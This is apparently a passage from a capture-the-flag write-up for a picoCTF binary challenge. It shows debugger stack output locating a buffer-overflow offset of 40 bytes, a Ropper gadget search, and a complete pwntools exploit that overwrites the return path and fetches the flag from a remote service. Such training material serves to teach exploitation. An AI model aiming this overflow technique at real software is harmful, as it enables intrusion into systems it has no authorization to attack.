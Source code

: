 ```asm



────────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffde38 ◂— 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
01:0008│     0x7fffffffde40 ◂— 'gaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
02:0010│     0x7fffffffde48 ◂— 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
03:0018│     0x7fffffffde50 ◂— 'iaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa'
04:0020│     0x7fffffffde58 ◂— 'jaaaaaaakaaaaaaalaaaaaaamaaa'
05:0028│     0x7fffffffde60 ◂— 'kaaaaaaalaaaaaaamaaa'
06:0030│     0x7fffffffde68 ◂— 'laaaaaaamaaa'
07:0038│     0x7fffffffde70 ◂— 0x7f006161616d /* 'maaa' */

pwndbg> cyclic -o faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

To find the gadget we will use Ropper.

```bash
➜  Local Target git:(main) ✗ ropper -f ./local-target --search "pop rbp"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rbp

[INFO] File: ./local-target
0x000000000040140b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040140f: pop rbp; pop r14; pop r15; ret; 
0x000000000040121d: pop rbp; ret; 
```

#### Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
warnings.filterwarnings('ignore')
context.arch = 'amd64'

fname = './local-target' 

LOCAL = False

if LOCAL:
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)

e = ELF(fname)

pop_rbp = 0x40121d
writable_seg = e.address + 0x4500 

r.sendline(b'A'*40 + p64(pop_rbp) + p64(writable_seg) + p64(e.sym.main + 125))
r.recvlines(4)
print(f'Flag --> {r.recvline_contains(b"pico").strip().decode()}')
```
